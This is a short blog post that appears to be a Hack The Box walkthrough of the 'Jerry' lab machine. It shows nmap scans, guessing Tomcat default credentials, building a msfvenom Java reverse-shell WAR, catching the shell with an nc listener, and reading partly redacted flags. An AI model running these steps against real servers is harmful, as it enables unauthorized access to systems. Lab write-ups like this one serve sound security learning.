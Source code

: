 ```yaml
---
title: "Jerry HTB"
date: 2024-07-16T16:38:48-07:00
draft: false
---
```


This is a test post I want to explore how some things translate fom my Obsidian volt with minamal edits. 

```sh
 IP=10.10.10.95

nmap -Pn -p- -oN nmap-p $IP --min-rate=1000

PORT     STATE SERVICE
8080/tcp open  http-proxy


 nmap -Pn -p 8080 -sCV -v -oN nmap-sCV $IP

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

Getting possible default passwords with 
```sh
 cp ~/SecList/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt .
 cat tomcat-betterdefaultpasslist.txt
admin:
admin:admanager
admin:admin
ADMIN:ADMIN
<snip>
``` 

![[Pasted image 20240716151741.png]]

With a field login attempt with `admin:admin` with burp suite to get the formatting for hydra we got an 403 page with this information in it. So next tried `tomcat:s3cret` and logged in.

looking at the file upload we see that it only takes war files so the best way i am finding is to 

````sh
msfvenom -p java/shell_reverse_tcp lhost=tun0 lport=4321 -f war -o pwn.war

# and 

nc -lvnp 4321

# we could also use metainterpritor 

````

then opend the page and in the nc window we get 
```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
700<snip>d00

root.txt
04a<snip>90e

```
